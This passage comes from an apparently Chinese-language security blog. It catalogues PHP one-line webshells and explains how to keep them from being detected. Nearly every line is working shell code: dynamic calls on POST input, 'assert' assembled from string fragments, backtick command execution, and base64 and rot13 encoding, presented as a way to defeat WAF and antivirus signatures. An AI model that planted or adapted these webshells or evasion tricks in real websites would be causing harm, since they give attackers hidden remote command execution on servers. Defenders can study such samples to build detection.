 

```php
<?php $_POST['fun']($_REQUEST['req']);?>
```

![img](https://klionsec.github.io/img/common%20webshell.png)

```php
<?php  $req = "a"."s"."s"."e"."r"."t";$req($_POST["klion"]); ?>		//字符分割
```

![img](https://klionsec.github.io/img/assert%20simple.png)

```php
<?php $cmd = `$_POST[ch]`;echo "<pre>$cmd</pre>";?>		
```

![img](https://klionsec.github.io/img/fanyinhao.png)

```php
<?php $arr = array("a"=>"$_POST[fun]");$a = "${ $arr["a"]( $_POST[code])}"; ?>
```

![img](https://klionsec.github.io/img/fun%20code.png)

```php
<?php 
$XKs1u='as';$Rqoaou='e';
$ygDOEJ=$XKs1u.'s'.$Rqoaou.'r'.'t';
$joEDdb ='b'.$XKs1u.$Rqoaou.(64).'_'.'d'.$Rqoaou.'c'.'o'.'d'.$Rqoaou;
@$ygDOEJ(@$joEDdb($_POST[nihao]));
?>
```

![img](https://klionsec.github.io/img/chaifenbase64.png)



## 2.编码bypass

利用各类编码来消除静态特征,以此来扰乱waf识别流量,说实话这种还是相对比较容易被检测到

利用base64编码,这种编码可能是各类webshell中用的最频繁的一种,如,weevely中默认就是用的base64,所以免杀性相对较好,另外还有诸如各类免杀大马,过waf菜刀等等……

```php
<?php $a = @base64_decode($a=$_POST['fun']);$a($_POST['code']);?>
```



![img](https://klionsec.github.io/img/base64%20common.png)

利用rot13编码,也用的比较频繁,关于各类编码的内部工作细节,请仔细阅读开发手册

```php
<?php $a=str_rot13('nffreg');$a($_POST['req']);?>
```


